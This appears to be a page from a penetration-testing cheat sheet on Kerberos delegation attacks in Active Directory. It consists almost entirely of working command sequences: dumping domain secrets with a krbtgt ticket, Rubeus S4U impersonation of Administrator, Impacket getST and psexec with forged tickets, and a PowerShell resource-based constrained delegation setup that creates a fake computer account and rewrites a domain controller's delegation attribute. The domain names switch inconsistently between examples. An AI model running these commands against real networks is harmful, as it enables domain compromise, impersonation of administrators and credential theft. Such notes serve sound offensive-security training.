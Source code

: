 ```bash
export KRB5CCNAME=./DC01\$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
secretsdump.py -k -no-pass dc01.zencorp.local
```

### <mark style="color:yellow;">Constrained Delegation</mark>

From windows

```powershell
# Constrained delegation with Rubeus
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:www/WS01.zencorp.local /altservice:HTTP /user:DMZ01$ /rc4:c48771baa19sfsa0e8045fbafd0b52d0 /ptt

# Get remote shell
Enter-PSSession ws01.inlanefreight.local
```

From Linux

```bash
# Find accounts with delegation privs
findDelegation.py INLANEFREIGHT.LOCAL/john.doe:pass123

# Get a valid TGS
getST.py -spn TERMSRV/DC01 'ZENCORP.LOCAL/roger.jones:p@ss123$' -impersonate Administrator

# Using the ticket
export KRB5CCNAME=./Administrator.ccache
psexec.py -k -no-pass ZENCORP.LOCAL/administrator@DC01 
```

### <mark style="color:yellow;">Resource-based constrained delegation (RBCD) from Windows</mark>

<details><summary>Search for users</summary></details>

{% hint style="info" %}
The easiest way to obtain an object with SPN is to use a computer, even by making a fake computer.
{% endhint %}

#### Create a computer account

```powershell
# Import PowerMad
Import-Module .\Powermad.ps1

# Create computer account
New-MachineAccount -MachineAccount ZENPC -Password $(ConvertTo-SecureString "pass132" -AsPlainText -Force)
$ComputerSid = Get-DomainComputer ZENPC -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
$credentials = New-Object System.Management.Automation.PSCredential "ZENCORP\john.doe", (ConvertTo-SecureString "pass123" -AsPlainText -Force)
Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose
```
